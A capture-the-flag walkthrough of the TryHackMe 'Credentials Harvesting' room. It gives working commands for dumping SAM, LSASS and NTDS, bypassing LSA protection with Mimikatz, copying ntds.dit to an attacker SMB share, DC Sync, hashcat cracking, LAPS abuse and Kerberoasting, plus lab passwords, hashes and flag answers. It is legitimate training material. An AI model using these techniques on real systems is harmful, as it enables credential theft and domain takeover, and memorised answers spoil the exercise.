# TryHackMe — Credentials Harvesting | Full Walkthrough

> **Room:** [Credentials Harvesting](https://tryhackme.com/room/credharvesting)  
> **Difficulty:** Hard  
> **Author:** vodanhtieutot  
> **Platform:** TryHackMe  

---

## Table of Contents

1. [Overview](#1-overview)
2. [Task 2 — Lab Setup](#2-task-2--lab-setup)
3. [Task 3 — Credential Access (Clear-text & Registry)](#3-task-3--credential-access-clear-text--registry)
4. [Task 4 — Local Windows Credentials (SAM Database)](#4-task-4--local-windows-credentials-sam-database)
5. [Task 5 — LSASS Memory Dumping](#5-task-5--lsass-memory-dumping)
6. [Task 6 — Windows Credential Manager](#6-task-6--windows-credential-manager)
7. [Task 7 — Domain Controller Credentials (NTDS)](#7-task-7--domain-controller-credentials-ntds)
8. [Task 8 — LAPS (Local Administrator Password Solution)](#8-task-8--laps-local-administrator-password-solution)
9. [Task 9 — Other AD Attacks (Kerberoasting & AS-REP Roasting)](#9-task-9--other-ad-attacks-kerberoasting--as-rep-roasting)
10. [Flags & Answers Summary](#10-flags--answers-summary)
11. [Tools Used](#11-tools-used)

---

## 1. Overview

This room covers **Credentials Harvesting** — a core technique in red team engagements where we look for, steal, or abuse stored credentials to achieve lateral movement and privilege escalation within an Active Directory environment.

Credentials can be found in many forms:
- Account details (usernames and plaintext passwords)
- NTLM hashes
- Kerberos tickets (TGT, TGS)
- Private keys and certificates

**Lab Environment:**

| Detail | Value |
|---|---|
| Target Machine IP | `10.48.184.0` / `10.48.179.60` |
| Domain | `THM.red` / `thm.red` |
| Default Credentials | `thm : Passw0rd!` |
| Attacker | Kali Linux (AttackBox) |

---

## 2. Task 2 — Lab Setup

Connect to the target machine via RDP from the Kali AttackBox:

```bash
xfreerdp3 /u:thm /p:Passw0rd! /v:10.48.184.0
```



> The xfreerdp output shows some certificate warnings — this is expected for a self-signed certificate in a lab environment. The connection will still proceed. Once connected, we have a Windows Server 2019 Domain Controller running as `Creds-Harvesting-AD.thm.red`.

---

## 3. Task 3 — Credential Access (Clear-text & Registry)

### 3.1 Searching the Registry for Credentials

The Windows Registry can contain credentials stored by applications, services, or administrators. We can search for keywords like `password` or `flag` using `reg query`:

```cmd
C:\Users\thm> reg query HKLM /f flag /t REG_SZ /s
```



The command iterates through every `REG_SZ` key in `HKLM`. After scrolling through hundreds of results, we find the flag value at the very bottom of the output:



The key `HKEY_LOCAL_MACHINE\SYSTEM\THM` contains:
```
flag    REG_SZ    password: 7tyh4ckm3
```

> 🚩 **Flag (reg query):** `7tyh4ckm3`

### 3.2 Finding Credentials in AD User Descriptions

A common misconfiguration in Active Directory is administrators placing temporary passwords in the **Description** field of a user account (e.g., for new employees) and forgetting to remove them. We can enumerate this using Active Directory Users and Computers (ADUC):

Open `ADUC` → navigate the domain tree → open the `THM Victim` user properties:



The `Description` field of `THM Victim` contains: `Change the password: Passw0rd!@#`

> 🚩 **Password in AD description:** `Passw0rd!@#`

### Task 3 — Questions & Answers

| Question | Answer |
|---|---|
| Using the `reg query` command, search for the value of the `flag` keyword in the Windows registry? | `7tyh4ckm3` |
| Enumerate the AD environment. What is the password of the victim user found in the description section? | `Passw0rd!@#` |

---

## 4. Task 4 — Local Windows Credentials (SAM Database)

### 4.1 Why the SAM File Cannot Be Read Directly

The SAM (Security Account Manager) database stores local user account hashes at `C:\Windows\System32\config\sam`. However, Windows locks this file while the OS is running — any attempt to read or copy it directly fails:

```cmd
C:\Windows\system32> type c:\Windows\System32\config\sam
The process cannot access the file because it is being used by another process.

C:\Windows\system32> copy c:\Windows\System32\config\sam C:\Users\Administrator\Desktop\
The process cannot access the file because it is being used by another process.
0 file(s) copied.
```



> This is expected. We need alternative methods to access the SAM database contents.

### 4.2 Method 1 — Volume Shadow Copy (VSS)

The **Volume Shadow Copy Service** maintains point-in-time snapshots of volumes. Because these snapshots are separate from the live filesystem, the SAM file inside them is **not locked** and can be copied freely.

First, check if any shadow copies already exist:

```cmd
C:\Windows\system32> vssadmin list shadows
No items found that satisfy the query.
```



No shadow copies exist yet. Create one with `wmic`:

```cmd
C:\Users\Administrator> wmic shadowcopy call create Volume='C:\'
```

Then copy both `sam` and `system` files from the shadow volume:

```cmd
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
```

Transfer both files to the Kali machine and decrypt with `secretsdump.py`:

```bash
python3 secretsdump.py -sam sam -system system LOCAL
```

### 4.3 Method 2 — Registry Hives (reg save)

Windows Registry also holds a copy of SAM data. We can export both `HKLM\sam` and `HKLM\system` using `reg save` (requires Administrator privileges):

```cmd
C:\Windows\system32> reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
The operation completed successfully.

C:\Windows\system32> reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
File C:\users\Administrator\Desktop\sam-reg already exists. Overwrite (Yes/No)?yes
The operation completed successfully.
```



> The second run shows an overwrite prompt, confirming the file was already exported from a previous attempt. Both `sam-reg` and `system-reg` are needed for decryption.

### 4.4 Decrypting the SAM Database with secretsdump (Remote)

Instead of copying files locally, we can run `secretsdump.py` directly against the live target using valid domain credentials. This method dumps everything in one shot — local SAM hashes, LSA secrets, cached domain credentials, and all Active Directory hashes via DRSUAPI:

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py thm:'Passw0rd!'@10.48.184.0
```



Key output from the dump:

```
[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3a787a80d08385cea7fb4aa2a4261:::
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
Administrator:500:...:fc9b72f354f0371219168bdb1460af32:::
thm.red\victim:1115:...:6c3d8f78c69ff2ebc377e19e96a10207:::
thm.red\bk-admin:1120:...:077cccc23f8ab7031726a3b70c694a49:::
```

> **Why do we get domain hashes here?** Because `secretsdump.py` against a Domain Controller uses the DRSUAPI replication protocol, which pulls all domain account hashes from the NTDS database — not just local SAM accounts.

> 🚩 **NTLM hash for Administrator:** `98d3a787a80d08385cea7fb4aa2a4261`

### Task 4 — Questions & Answers

| Question | Answer |
|---|---|
| Follow the technique discussed in this task to dump the content of the SAM database file. What is the NTLM hash for the Administrator account? | `98d3a787a80d08385cea7fb4aa2a4261` |

---

## 5. Task 5 — LSASS Memory Dumping

### What is LSASS?

**Local Security Authority Server Service (LSASS)** (`lsass.exe`) is a critical Windows process that handles authentication for all logged-in users. It stores:
- Plaintext passwords (if WDigest is enabled)
- NTLM hashes
- Kerberos tickets (TGT and TGS)
- Cached credentials

Since LSASS runs as SYSTEM and holds credentials in memory, it is the primary target for credential dumping attacks (`T1003 — OS Credential Dumping: LSASS Memory`).

### 5.1 Dumping LSASS via Task Manager (GUI)

Open **Task Manager** → **Details** tab → right-click `lsass.exe` → **Create dump file**. This saves a `.dmp` file to `C:\Users\<user>\AppData\Local\Temp\`.

Copy the dump to the Mimikatz directory:

```cmd
copy C:\Users\ADMINI~1\AppData\Local\Temp\2\lsass.DMP C:\Tools\Mimikatz\lsass.DMP
```

### 5.2 Dumping LSASS via ProcDump (CLI)

When no GUI is available, use `procdump.exe` from Sysinternals:

```cmd
c:\Tools\SysinternalsSuite\procdump.exe -accepteula -ma lsass.exe c:\Tools\Mimikatz\lsass_dump
```

### 5.3 Extracting Credentials from the Dump with Mimikatz

Run Mimikatz as Administrator, enable debug privileges, then read the dump:

```mimikatz
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
```

This reveals cached NTLM hashes and (if WDigest is enabled) plaintext passwords for all users who have logged in.

### 5.4 Protected LSASS (RunAsPPL)

Microsoft introduced **LSA Protection** in 2012, which marks `lsass.exe` as a Protected Process Light (PPL). When enabled, `sekurlsa::logonpasswords` returns:

```
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

To bypass this, load Mimikatz's kernel driver:

```mimikatz
mimikatz # !+
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service started

mimikatz # !processprotect /process:lsass.exe /remove
Process : lsass.exe
PID 528 -> 00/00 [0-0-0]
```

After removing the protection, `sekurlsa::logonpasswords` works as expected.

### Task 5 — Questions & Answers

| Question | Answer |
|---|---|
| Is the LSA protection enabled? (Y\|N) | `Y` |
| If yes, try removing the protection and dumping the memory using Mimikatz. Once done, hit Complete. | *(complete)* |

---

## 6. Task 6 — Windows Credential Manager

### What is Credential Manager?

Windows Credential Manager stores logon credentials for websites, applications, and network resources. Credentials are protected with **DPAPI** and stored per-user under `C:\Users\<user>\AppData\Local\Microsoft\Vault\`.

There are four types of stored credentials:
- **Web Credentials** — saved by browsers (MSEdge, IE)
- **Windows Credentials** — NTLM/Kerberos for domain/network access
- **Generic Credentials** — plaintext usernames and passwords
- **Certificate-based Credentials** — certificate authentication

### 6.1 Accessing Credential Manager (GUI)

Credential Manager can be opened via `Control Panel → User Accounts → Credential Manager`:



### 6.2 Listing Vaults with vaultcmd

Navigate to the target user directory and enumerate all available credential vaults:

```cmd
C:\Users\Administrator> vaultcmd /list
```



Two default vaults are present — one for Web Credentials and one for Windows Credentials.

### 6.3 Inspecting Web Credentials

Check how many credentials are stored in the Web Credentials vault:

```cmd
C:\Users\Administrator> VaultCmd /listproperties:"Web Credentials"
```



One credential is stored, protected with DPAPI. List its details:

```cmd
C:\Users\Administrator> VaultCmd /listcreds:"Web Credentials"
```



We can see the credential metadata:
- **Resource:** `internal-app.thm.red`
- **Identity:** `THMuser`
- **Saved by:** MSEdge

> `vaultcmd` cannot reveal the password — only the username and target resource. We need a different approach.

### 6.4 Extracting the Plaintext Password with Get-WebCredentials.ps1

The `Get-WebCredentials.ps1` PowerShell script reads DPAPI-protected vault data and decrypts it in the context of the logged-in user:

```powershell
C:\Users\Administrator> powershell -ex bypass

PS C:\Users\Administrator> Import-Module C:\Tools\Get-WebCredentials.ps1
PS C:\Users\Administrator> Get-WebCredentials
```



Plaintext password successfully extracted:
- **Username:** `THMuser`
- **Resource:** `internal-app.thm.red`
- **Password:** `E4syPassw0rd`

> 🚩 **Password for THMuser at internal-app.thm.red:** `E4syPassw0rd`

### 6.5 Enumerating Windows Credentials with cmdkey

The `cmdkey` tool lists all stored Windows credentials:

```cmd
C:\Users\Administrator> cmdkey /list
```



Three entries are visible:
1. `WindowsLive:target=virtualapp/didlogical` — Generic, `02qlpqmzrgmmbamm`
2. `LegacyGeneric:target=10.10.237.226` — Generic credential for an **SMB share**, user `thm`
3. `Domain:interactive=thm.red\thm-local` — **Saved domain password** for `thm.red\thm-local`

### 6.6 Abusing Saved Credentials with RunAs /savecred

Because `thm-local`'s credentials are saved in Credential Manager, we can use `runas /savecred` to launch a new process as that user **without any password prompt**:

```cmd
C:\Users\Administrator> runas /savecred /user:THM.red\thm-local cmd.exe
Attempting to start cmd.exe as user "THM.red\thm-local" ...
```



A new `cmd.exe` window opens running as `THM.red\thm-local`. From this context, we can read files belonging to that user:

```cmd
C:\Windows\system32> type "C:\Users\thm-local\Saved Games\flag.txt"
THM{RunA5S4veCr3ds}
```



> 🚩 **Flag (runas /savecred):** `THM{RunA5S4veCr3ds}`

### 6.7 Dumping Credential Manager Passwords with Mimikatz

Mimikatz's `sekurlsa::credman` module reads all Credential Manager entries directly from LSASS memory, revealing plaintext passwords that DPAPI has already decrypted in memory:

```mimikatz
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman
```



Two credential entries are dumped from the `thm` user's session:

| Username | Domain / Target | Password |
|---|---|---|
| `thm` | `10.10.237.226` (SMB share) | `jfxKruLkkxoPjwe3` |
| `thm.red\thm-local` | `thm.red\thm-local` | `Passw0rd123` |

> 🚩 **Password for 10.10.237.226 SMB share:** `jfxKruLkkxoPjwe3`

### Task 6 — Questions & Answers

| Question | Answer |
|---|---|
| Apply the technique for extracting clear-text passwords from Windows Credential Manager. What is the password of THMuser for internal-app.thm.red? | `E4syPassw0rd` |
| Use Mimikatz to memory dump the credentials for the 10.10.237.226 SMB share stored in Windows Credential vault. What is the password? | `jfxKruLkkxoPjwe3` |
| Run cmd.exe under thm-local user via runas and read the flag in `c:\Users\thm-local\Saved Games\flag.txt`. What is the flag? | `THM{RunA5S4veCr3ds}` |

---

## 7. Task 7 — Domain Controller Credentials (NTDS)

### What is NTDS?

**NTDS (NT Directory Services)** is the database that stores all Active Directory data. The file `C:\Windows\NTDS\ntds.dit` contains every AD object — including all user account password hashes for the entire domain. Accessing it is the equivalent of compromising the entire domain.

The NTDS.dit file cannot be read while Active Directory is running (just like SAM), so we need special methods to extract it.

### 7.1 Method 1 — Local Dump with ntdsutil (No Credentials Needed)

If we already have Administrator access on the Domain Controller, we can use the built-in `ntdsutil` tool to create a full snapshot of the NTDS database into `C:\temp`:

```cmd
C:\Windows\system32> powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```



The output confirms the snapshot is created successfully. The tool copies three files:
- `C:\temp\Active Directory\ntds.dit`
- `C:\temp\registry\SYSTEM`
- `C:\temp\registry\SECURITY`

Verify the output directory:

```cmd
C:\> cd temp
C:\temp> dir
```



Two folders are present: `Active Directory` (contains `ntds.dit`) and `registry` (contains `SYSTEM` and `SECURITY`).

### 7.2 Transferring Files to Kali with impacket-smbserver

Set up an SMB share on Kali to receive the files:

```bash
impacket-smbserver share ~/Desktop -smb2support -username vodanhtieutot -password 11042000
```



The target machine connects and authenticates to our Kali SMB server. Now map the share as drive Z: on the Windows target and transfer the files:

```cmd
C:\temp> net use Z: \\<KALI_IP>\share /user:vodanhtieutot 11042000
C:\temp> robocopy C:\temp Z:\temp /E
```



All four files are transferred successfully:
- `ntds.dit` — 24.0 MB
- `ntds.jfm` — 16,384 bytes
- `SECURITY` — 65,536 bytes
- `SYSTEM` — 20.0 MB

### 7.3 Decrypting NTDS Locally with secretsdump

With all three required files on Kali, run `secretsdump.py` in `local` mode to decrypt the NTDS database:

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py \
  -security ./temp/registry/SECURITY \
  -system ./temp/registry/SYSTEM \
  -ntds ./temp/'Active Directory'/ntds.dit local
```



Key output:

```
[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Reading and decrypting hashes from ./temp/Active Directory/ntds.dit
Administrator:500:...:fc9b72f354f0371219168bdb1460af32:::
thm.red\thm:1114:...:fc525c9683e8fe067095ba2ddc971889:::
thm.red\bk-admin:1120:...:077cccc23f8ab7031726a3b70c694a49:::
```

> **bootKey:** `0x36c8d26ec0df8b23ce63bcefa6e2d821`

### 7.4 Method 2 — DC Sync Attack (Remote, With Credentials)

If we have an account with AD replication permissions (`Replicating Directory Changes All`), we can perform a **DC Sync** attack remotely — simulating what a Domain Controller does when it replicates from another DC. No physical access to the DC is needed.

Run `secretsdump.py` with `-just-dc-ntlm` to dump only NTLM hashes:

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py \
  -just-dc-ntlm THM.red/thm@10.48.179.60
```



The full domain credential list is returned remotely. This is identical to the local dump — but without ever touching the Domain Controller's filesystem.

### 7.5 Cracking the NTLM Hash for bk-admin

From the dump, the `bk-admin` NTLM hash is `077cccc23f8ab7031726a3b70c694a49`. Crack it with hashcat using mode `-m 1000` (NTLM) against rockyou.txt:

```bash
hashcat -m 1000 -a 0 077cccc23f8ab7031726a3b70c694a49 /usr/share/wordlists/rockyou.txt
```





The hash cracks in **2 seconds**:

```
077cccc23f8ab7031726a3b70c694a49:Passw0rd123
```

> 🚩 **Clear-text password for bk-admin:** `Passw0rd123`

### Task 7 — Questions & Answers

| Question | Answer |
|---|---|
| Apply the technique to dump the NTDS file locally and extract hashes. What is the target system bootkey value? | `0x36c8d26ec0df8b23ce63bcefa6e2d821` |
| What is the clear-text password for the bk-admin username? | `Passw0rd123` |

---

## 8. Task 8 — LAPS (Local Administrator Password Solution)

### What is LAPS?

**LAPS** is a Microsoft solution that automatically manages and rotates the local Administrator password on domain-joined workstations. It stores the current password in the Active Directory computer object under two attributes:
- `ms-mcs-AdmPwd` — the plaintext local admin password
- `ms-mcs-AdmPwdExpirationTime` — when the password expires

Only specific AD groups are granted permission to read `ms-mcs-AdmPwd`. Our goal is to find which group has this access and then either compromise a member of that group or impersonate them to retrieve the LAPS password.

### 8.1 Confirming LAPS is Installed

Check whether `admpwd.dll` is present on the target:

```cmd
C:\temp> dir "C:\Program Files\LAPS\CSE"
```



`AdmPwd.dll` is present — LAPS is installed on this machine.

### 8.2 Checking Available LAPS PowerShell Cmdlets

Open PowerShell and list available LAPS cmdlets:

```powershell
C:\temp> powershell
PS C:\temp> Get-Command *AdmPwd*
```



The key cmdlets are:
- `Find-AdmPwdExtendedRights` — find which OUs/groups can read LAPS passwords
- `Get-AdmPwdPassword` — retrieve the actual LAPS password

### 8.3 Finding Which Group Can Read LAPS Passwords

Use `Find-AdmPwdExtendedRights` to identify which group has `ExtendedRightHolder` permission. First, try listing all OUs:

```powershell
PS C:\temp> Find-AdmPwdExtendedRights -Identity *
```

This returns an error because multiple objects match. Narrow it down to the target OU `THMorg`:

```powershell
PS C:\temp> Find-AdmPwdExtendedRights -Identity THMorg
```



The output shows that the group **`THM\LAPsReader`** (also seen as `THM\LAPSReader`) has `ExtendedRightHolder` permission on `OU=THMorg,DC=thm,DC=red`.

### 8.4 Identifying Members of the LAPsReader Group

```powershell
PS C:\temp> net groups "LAPsReader"
```



`bk-admin` is the only member of the `LAPsReader` group. This is the user whose credentials we cracked in Task 7 (`Passw0rd123`).

### 8.5 Retrieving the LAPS Password as bk-admin

Since we have `bk-admin`'s plaintext password, we can now read the LAPS password. Connect to the domain with `bk-admin` credentials and run `Get-AdmPwdPassword`:

```powershell
PS C:\> Get-AdmPwdPassword -ComputerName Creds-Harvestin
```



The LAPS password for `CREDS-HARVESTIN` is revealed:
- **ComputerName:** `CREDS-HARVESTIN`
- **Password:** `THMLAPSPassw0rd`
- **Expiration:** `2/11/2338`

> 🚩 **LAPS Password for Creds-Harvestin:** `THMLAPSPassw0rd`

### Task 8 — Questions & Answers

| Question | Answer |
|---|---|
| Which group has ExtendedRightHolder and is able to read the LAPS password? | `LAPsReader` |
| Follow the technique discussed in this task to get the LAPS password. What is the LAPS password for the Creds-Harvestin computer? | `THMLAPSPassw0rd` |
| Which user is able to read LAPS passwords? | `bk-admin` |

---

## 9. Task 9 — Other AD Attacks (Kerberoasting & AS-REP Roasting)

### 9.1 Kerberoasting

**Kerberoasting** targets Active Directory **service accounts** (accounts with a Service Principal Name — SPN). When a user requests a TGS (service ticket) for an SPN account, the KDC encrypts the ticket with the service account's NTLM hash. An attacker who can request that ticket can take it offline and crack it to recover the plaintext password.

**Step 1 — Enumerate SPN accounts:**

```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py \
  -dc-ip 10.48.179.60 THM.red/thm
```



One SPN account found:
- **SPN:** `http/creds-harvestin.thm.red`
- **Account:** `svc-thm`

**Step 2 — Request the TGS ticket:**

```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py \
  -dc-ip 10.48.179.60 THM.red/thm -request-user svc-thm
```



The tool returns a `$krb5tgs$23$*` hash. Save this to a file (e.g., `hash.txt`).

**Step 3 — Crack the TGS ticket with hashcat:**

```bash
hashcat -a 0 -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```





The TGS ticket cracks successfully:

```
$krb5tgs$23$*svc-thm$...:Passw0rd1
```

> 🚩 **Kerberoasting — SPN for Domain Controller:** `http/creds-harvestin.thm.red`  
> 🚩 **Kerberoasting — svc-thm password:** `Passw0rd1`

### 9.2 AS-REP Roasting

**AS-REP Roasting** targets accounts with the `UF_DONT_REQUIRE_PREAUTH` flag set — meaning the KDC will issue an AS-REP (encrypted with the user's hash) without requiring the user to prove they know their password first. The attacker can then crack this response offline.

Use `GetNPUsers.py` against a list of domain users:

```bash
python3 /opt/impacket/examples/GetNPUsers.py \
  -dc-ip 10.48.179.60 thm.red/ -usersfile /tmp/users.txt
```

Example output:
```
[-] User thm doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$victim@THM.RED:166c95418fb9dc495789fe9...
[-] User admin doesn't have UF_DONT_REQUIRE_PREAUTH set
```

The `victim` account has pre-authentication disabled — its AS-REP hash is returned and can be cracked with hashcat using mode `-m 18200`.

### 9.3 SMB Relay & LLMNR/NBNS Poisoning (Theory)

**SMB Relay:** Intercepts NTLM authentication attempts over SMB and relays them to a target machine. Requires SMB signing to be disabled on both source and target. Covered in detail in the THM Exploiting AD room.

**LLMNR/NBNS Poisoning:** When DNS resolution fails on a Windows network, machines broadcast LLMNR/NBNS queries. An attacker running `Responder` can respond to these broadcasts and capture NTLM hashes from machines that attempt to authenticate. Covered in THM Breaching AD room.

### Task 9 — Questions & Answers

| Question | Answer |
|---|---|
| Enumerate for SPN users using GetUserSPNs. What is the Service Principal Name for the Domain Controller? | `http/creds-harvestin.thm.red` |
| After finding the SPN account, perform Kerberoasting and crack the TGS ticket. What is the password? | `Passw0rd1` |

---

## 10. Flags & Answers Summary

| Task | Question | Answer |
|---|---|---|
| Task 3 | Flag found in Windows registry with `reg query` | `7tyh4ckm3` |
| Task 3 | Password of victim user found in AD description | `Passw0rd!@#` |
| Task 4 | NTLM hash for Administrator account (from SAM dump) | `98d3a787a80d08385cea7fb4aa2a4261` |
| Task 5 | Is LSA protection enabled? | `Y` |
| Task 6 | Password of THMuser for internal-app.thm.red | `E4syPassw0rd` |
| Task 6 | Password for the 10.10.237.226 SMB share (Mimikatz credman) | `jfxKruLkkxoPjwe3` |
| Task 6 | Flag from `c:\Users\thm-local\Saved Games\flag.txt` | `THM{RunA5S4veCr3ds}` |
| Task 7 | Target system bootkey value (from NTDS local dump) | `0x36c8d26ec0df8b23ce63bcefa6e2d821` |
| Task 7 | Clear-text password for bk-admin (hashcat cracked) | `Passw0rd123` |
| Task 8 | Group with ExtendedRightHolder to read LAPS | `LAPsReader` |
| Task 8 | LAPS password for Creds-Harvestin computer | `THMLAPSPassw0rd` |
| Task 8 | User able to read LAPS passwords | `bk-admin` |
| Task 9 | SPN for the Domain Controller | `http/creds-harvestin.thm.red` |
| Task 9 | Password cracked from Kerberoasting (svc-thm) | `Passw0rd1` |

---

## 11. Tools Used

| Tool | Purpose |
|---|---|
| `xfreerdp3` | RDP client to connect to Windows target |
| `reg query` | Search Windows Registry for credential keywords |
| Active Directory Users and Computers (ADUC) | Enumerate AD user descriptions |
| `vssadmin` | List Volume Shadow Copies |
| `wmic shadowcopy` | Create VSS snapshot to bypass SAM file lock |
| `reg save` | Export SAM and SYSTEM registry hives to disk |
| `impacket-secretsdump` / `secretsdump.py` | Decrypt SAM / NTDS databases, perform DC Sync |
| `impacket-smbserver` | Host an SMB share to receive files from target |
| `robocopy` | Reliably copy NTDS files to the SMB share |
| `procdump.exe` | Dump LSASS process memory from command line |
| `Mimikatz` | Extract hashes, tickets, and plaintext creds from LSASS |
| `vaultcmd` | Enumerate Windows Credential Manager vaults |
| `Get-WebCredentials.ps1` | Decrypt DPAPI-protected web credentials |
| `cmdkey` | List stored Windows credentials |
| `runas /savecred` | Execute process as another user using saved credentials |
| `ntdsutil` | Create NTDS snapshot (IFM mode) on the DC |
| `hashcat` | Offline hash cracking (NTLM `-m 1000`, TGS `-m 13100`) |
| `GetUserSPNs.py` | Enumerate SPN accounts and request TGS for Kerberoasting |
| `GetNPUsers.py` | Perform AS-REP Roasting against accounts without pre-auth |
| `Find-AdmPwdExtendedRights` | Find which OU/group can read LAPS passwords |
| `Get-AdmPwdPassword` | Retrieve LAPS plaintext password from AD |

---

*This walkthrough was created for educational purposes within the TryHackMe lab environment.*
